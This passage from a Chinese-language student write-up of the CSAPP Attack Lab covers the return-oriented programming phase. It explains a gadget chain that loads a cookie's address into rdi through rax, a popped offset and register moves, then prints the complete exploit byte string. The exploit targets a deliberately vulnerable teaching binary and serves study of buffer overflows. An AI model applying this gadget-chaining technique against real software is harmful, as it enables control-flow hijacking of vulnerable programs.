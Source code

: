 &emsp;&emsp;这就是破局的关键。我们只需要将cookie放在栈帧的最上方，然后计算出一个基址和偏移值，并将基址和偏移值分别赋值给rdi和rsi就能得到cookie的地址，并且将这个地址传递给rax，然后传递给rdi，大功告成。  

&emsp;&emsp;剩下的问题是，如何赋值给rsi。  
&emsp;&emsp;查表，没想到这个也要绕路。  
&emsp;&emsp;先是查到有mov %ecx,%esi，嗯找什么可以赋值给ecx，  
&emsp;&emsp;然后查到有mov %edx, %ecs，嗯找什么可以复制给edx，  
&emsp;&emsp;最后查到有mov %eax, %edx，嗯搞定了。  

![Attack-rl3](https://github.com/sworduo/Course/blob/master/pic/CSAPP/LEC03-Attack/Attack-rl3.png "Attack-rl3")

最后梳理一下:
1.	首先将rsp的基址传给rdi，可以将rsp传递给rax再传递给rdi。
2.	然后通过pop得到偏移值，再将偏移值七绕八拐传递给rsi。
3.	最后跳转到touch3处，搞定。  

输入字节码如下：
```
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```

#	事后
&emsp;&emsp;完成这个实验，获益匪浅。见识了两种曾经的主流缓冲区溢出破坏方式，加深了我对栈帧空间的理解。希望以后写代码时，我能够以一个更为底层的角度去考虑代码结构，去思考代码的合理性与安全性。








 